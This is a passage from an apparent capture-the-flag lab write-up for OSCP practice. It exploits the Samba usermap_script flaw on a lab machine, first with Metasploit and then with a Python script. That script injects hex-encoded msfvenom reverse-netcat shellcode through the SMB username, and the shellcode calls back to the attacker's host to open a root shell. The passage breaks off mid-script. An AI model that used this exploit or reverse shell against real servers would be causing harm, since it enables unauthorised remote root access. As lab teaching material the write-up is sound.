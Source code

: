```
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.36
lhost => 10.10.14.36
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.36:4444 
[*] Command shell session 1 opened (10.10.14.36:4444 -> 10.10.10.3:53690) at 2021-05-25 11:30:34 -0700

whoami
root
```

Using this Metasplot module we get a root command shell! To practice for the OSCP exam, I will be doing this manually as well. 

## SMB - 139/445 Exploitation Manually

Looking back at the Rapid7 post, it mentions that "by specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!" This means that all we need to do is implement some shellcode into the username field when connecting to the SMB server. A great way to do this is to utilize Python. I went ahead and wrote a Python script and added some comments to explain what is happening in this script.

```python
#!/usr/bin/python3

#Import SMBConnection Module (uses pysmb to perform file operations with a remote SMB/CIFS server)
from smb.SMBConnection import SMBConnection

#msfvenom -p cmd/unix/reverse_netcat LHOST=10.10.14.36 LPORT=1337 -f python
#This msfvenom command will output shellcode for a Unix reverse netcat calling to host 10.10.14.36 on port 1337.
#Shellcode is simply a series of bytes that represent executable machine language code. These bytes are represented in hex notation.
buf =  b""
buf += b"\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x62"
buf += b"\x73\x76\x6f\x65\x3b\x20\x6e\x63\x20\x31\x30\x2e\x31"
buf += b"\x30\x2e\x31\x34\x2e\x33\x36\x20\x31\x33\x33\x37\x20"
buf += b"\x30\x3c\x2f\x74\x6d\x70\x2f\x62\x73\x76\x6f\x65\x20"
buf += b"\x7c\x20\x2f\x62\x69\x6e\x2f\x73\x68\x20\x3e\x2f\x74"
buf += b"\x6d\x70\x2f\x62\x73\x76\x6f\x65\x20\x32\x3e\x26\x31"
buf += b"\x3b\x20\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x62\x73\x76"
buf += b"\x6f\x65"

#Username supplied is gonna be the nohup command (used to tell Unix systems not to stop a command once it has started this will be useful for the shellcode which is going to run a command
#Then we concatenate the nohup command with our shellcode we want to execute. We also supply and empty password and our target_ip which is 10.10.10.3
username = "/=`nohup " + buf + "`"
password = ""
target_ip = '10.10.10.3'

#Using the SMBConnection class which requires (userID, password, client_machine_name, server_name, use_ntlm_v2 (boolean value)
#We do not need to supply actual values for client_machine_name and server_name and can set use_ntlm_v2 to false since these are not needed.
connection = SMBConnection(username, password, "Temp1", "Temp2", use_ntlm_v2 = False)
#Establish an SMB connection using .connect(target_ip, port# (445))
```